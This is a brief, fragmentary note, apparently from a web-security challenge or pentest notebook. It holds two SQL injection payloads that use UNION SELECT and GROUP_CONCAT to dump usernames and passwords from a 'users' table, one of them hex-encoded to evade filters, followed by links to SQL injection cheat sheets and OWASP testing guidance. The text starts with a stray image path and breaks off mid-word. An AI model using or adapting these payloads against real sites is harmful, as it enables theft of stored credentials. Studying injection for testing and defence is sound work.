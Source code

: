 ' uNion sElect 0x2261646d696e2720556e694f6e2053656c65435420312c2047524f55505f434f4e434154286c6f67696e2c2720272c2070617373776f7264292046524f4d20635f776562736572766575725f34392e75736572732d2d202d22-- -

http://forum.sqliwiki.com/showthread.php?tid=82
https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet
http://thanat0s.trollprod.org/2013/01/sqlite-le-mal-aime-des-sqli/
https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29
https://websec.ca/kb/sql_injection
http://www.sqlinjectionwiki.com/Categories/2/mysql-sql-injection-cheat-sheet/#Gettinguserdefinedtables
http://securityidiots.com/Web-Pentest/SQL-Injection/routed_sql_injection.html



min' union select 1, GROUP_CONCAT(password, ' ') FROM users--
